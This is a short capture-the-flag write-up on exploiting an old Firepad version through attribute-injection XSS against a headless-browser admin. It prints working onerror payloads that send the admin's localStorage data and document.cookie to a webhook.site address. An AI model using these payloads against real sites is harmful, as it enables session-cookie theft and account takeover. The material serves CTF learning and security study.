




Old software, good software:
Clone and pwn: https://github.com/FirebaseExtended/firepad

firepad is a note taking app that can be embedded with other apps and uses firebase.
The service is running on version 1.5.5.

If we submit an image with a link to the webhook website we get a request from a chrome headless which is the admin. We need to leverage this to get some cookies:

After trying xss payload the following ones get us XSS:

#" onmouseover="alert('xxs')"
#" onerror="alert('xxs')"

Lets try to read the admin pads:

#" onerror="document.location='https://webhook.site/f01debc3-c5e8-4a9f-ab8f-2189a1656cae?c='+localStorage.getItem('demo-pad-list');"

Found only one and its the active one.
Lets try to read his cookie:

#" onerror="document.location='https://webhook.site/f01debc3-c5e8-4a9f-ab8f-2189a1656cae?c='+document.cookie;"

We get the flag in the cookie.

